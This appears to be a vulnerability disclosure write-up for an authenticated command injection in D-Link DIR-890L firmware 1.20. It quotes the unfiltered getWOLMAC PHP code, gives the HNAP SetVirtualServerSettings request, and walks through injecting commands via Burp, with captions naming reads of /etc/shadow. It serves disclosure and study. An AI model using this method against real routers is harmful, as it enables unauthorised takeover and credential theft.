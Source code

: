 # D-Link DIR-890L 1.20 RCE
```s
Current Firmware Version: 	1.20, Wed 27 Sep 2017
Current Firmware Date: 	2017-09-27 15:40:00
```
Firmware: [Here](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-890L)

## Vulnerability
In its firmware we can find a function `getWOLMAC` in `SetVirtualServerSettings.php`
```php
function getWOLMAC($ipv4addr)
{
	$cmd = "scut -p ".$ipv4addr." -f 3 /proc/net/arp";
	setattr("/runtime/wakeonlan/mac", "get", $cmd);
	$mac = get("", "/runtime/wakeonlan/mac");
	del("/runtime/wakeonlan/mac");
	return $mac;
}
```
The `$cmd` concatenates `$ipv4addr` directly into command without filtering, and it is called at
```php
		$ipv4addr = get("x", "LocalIPAddress");
        ...
		if($description == "Wake-On-Lan")
		{
			$wolmac = getWOLMAC($ipv4addr);
			set($vsvr_entry.":".$InDeX."/wakeonlan_mac", $wolmac);
		}
```
so there may exist `RCE`(remote command execution) in Virtual Server related pages: /VirtualServer.html

## Exploit
It requires authentication, so log in first.
![Login](pic/login.png)
![Home](pic/home.png)
Then visit [Virtual Server page (/VirtualServer.html)](http://192.168.0.1/VirtualServer.html) which is inaccessible through panel.
![Virtual Server](pic/virtualverver.png)
Add a rule named `Wake-On-Lan`.
![Add rule](pic/addrule.png)
![Rule results](pic/ruleres.png)
Start `burpsuite` before click `Save` button and capture the following packet:
![packet](pic/packet.png)
```h
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: A4A816AE6CF2AC5537B0EB390FFB591C 1436839665
Content-Length: 765
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/VirtualServer.html
Cookie: uid=ZeNYZag3Gw

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>Wake-On-Lan</VirtualServerDescription>
					<ExternalPort>1</ExternalPort>
					<InternalPort>1</InternalPort>
					<ProtocolType>TCP</ProtocolType>
					<ProtocolNumber>6</ProtocolNumber>
					<LocalIPAddress>192.168.0.100</LocalIPAddress>
					<ScheduleName></ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```
Prepare a http server then:
![python server](pic/pythonserver.png)
Use `Repeater` module to test `RCE`(remote command execution):
![burpsuite](pic/burp.png)
And we get:
![result](pic/res.png)
Test commands and read `/etc/shadow`:
![command ls /busy/box](pic/burpls.png)
![result](pic/resls.png)
![command ls /busybox -al](pic/burplsal.png)
![result](pic/reslsal.png)
![command cat /etc/shadow](pic/burpcat.png)
![result](pic/rescat.png)



